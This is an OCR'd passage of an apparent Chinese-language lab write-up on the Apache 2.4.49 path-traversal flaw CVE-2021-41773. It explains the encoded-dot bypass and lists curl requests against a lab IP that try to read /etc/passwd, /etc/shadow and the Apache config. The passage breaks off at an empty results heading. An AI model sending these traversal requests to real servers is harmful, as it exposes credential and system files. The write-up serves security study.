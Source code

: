 #### 3. 漏洞分析与利用

##### 3.1 CVE-2021-41773 漏洞原理

**漏洞基本信息**:

- **CVE编号**: CVE-2021-41773
- **CVSS评分**: 7.5 (高危)
- **漏洞类型**: 路径遍历 (Path Traversal)
- **影响版本**: Apache HTTP Server 2.4.49
- **漏洞原理**: Apache 2.4.49版本在处理URL路径规范化时存在缺陷，攻击者可以通过构造特殊的URL编码绕过路径限制，访问Web根目录之外的文件

**技术细节**:

- **根本原因**: Apache对URL中的路径分隔符和点号序列的处理不当
- **绕过机制**: 使用URL编码的点号(`%2e`)可以绕过路径规范化检查
- **攻击路径**: 通过Alias映射的目录(如 `/cgi-bin/`, `/icons/`)进行路径遍历

##### 3.2 路径遍历攻击实践

###### 3.2.1 基础路径遍历测试

```bash
# 尝试通过CGI路径读取 /etc/passwd 文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试读取 Apache 配置文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/apache2/apache2.conf"

# 尝试读取其他敏感文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow"
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/proc/version"
```

**执行结果分析**:
所有通过 `/cgi-bin/`路径的攻击尝试都返回了 `500 Internal Server Error`，这表明：

1. **CGI配置问题**: CGI模块可能没有正确配置或缺少必要的CGI脚本
2. **路径解析问题**: Apache可能对CGI路径下的路径遍历有特殊处理
3. **权限限制**: 可能存在额外的访问控制机制

###### 3.2.2 非CGI路径的直接遍历攻击

CVE-2021-41773不仅限于CGI路径，我们尝试其他映射路径：

```bash
# 尝试通过icons路径进行遍历
curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试通过manual路径进行遍历  
curl "http://10.37.133.3:42286/manual/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 直接根路径尝试
curl "http://10.37.133.3:42286/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

**执行结果**:
